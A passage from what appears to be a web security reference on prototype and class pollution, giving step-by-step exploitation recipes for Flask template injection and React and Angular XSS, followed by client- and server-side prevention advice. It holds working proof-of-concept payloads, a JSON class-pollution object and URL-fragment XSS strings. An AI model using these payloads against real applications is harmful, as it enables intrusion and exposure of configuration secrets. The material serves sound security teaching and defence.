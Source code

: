      - **Flask template injection via class pollution**:
       - Step 1: Identify a Flask app with vulnerable object attribute setting
       - Step 2: Craft a payload targeting template rendering:
       ```json
       {
         "__class__": {
           "__init__": {
             "__globals__": {
               "render_template": "{{config}}"
             }
           }
         }
       }
       ```
       - Step 3: Send the payload to a vulnerable endpoint
       - Step 4: Trigger a template rendering function
       - Step 5: Observe template injection via polluted globals

  3. **Client-side exploitation examples**:
     - **React DOM pollution for XSS**:
       - Step 1: Identify a React application with unsafe object merging
       - Step 2: Craft a payload targeting dangerouslySetInnerHTML:
       ```
       #__proto__[dangerouslySetInnerHTML]={ __html: <img src onerror=alert(1)> }
       ```
       - Step 3: Navigate to the vulnerable page with the payload
       - Step 4: Observe XSS execution when React renders components

     - **Angular template pollution**:
       - Step 1: Identify an Angular application that merges configuration objects
       - Step 2: Create a payload targeting template compilation:
       ```
       #__proto__[template]=<img src=x onerror=alert(document.domain)>
       ```
       - Step 3: Navigate to the vulnerable page with the payload
       - Step 4: Observe XSS when Angular compiles the polluted template

- **Detection and prevention**
  1. **Client-side prevention**:
     - Use Object.freeze(Object.prototype) to prevent modification
     - Implement input sanitization that removes __proto__ and constructor.prototype
     - Use Map instead of Object for user-controlled collections
     - Avoid using recursive merge functions on user input
     - Perform property existence checks with hasOwnProperty()
     - Use object literals without prototype (Object.create(null))
     - Implement CSP to mitigate XSS exploitation
     - Keep client-side libraries updated against known vulnerabilities

  2. **Server-side prevention**:
     - Validate user input against a schema before processing
     - Use safe alternatives to recursive merge (lodash.mergeWith with customizer)
     - Implement property whitelisting when merging objects
     - Use Object.freeze(Object.prototype) on application startup
     - Keep server-side libraries updated
     - Use objects without prototype (Object.create(null))
     - Add middleware to sanitize dangerous properties in JSON
     - Implement proper JSON schema validation
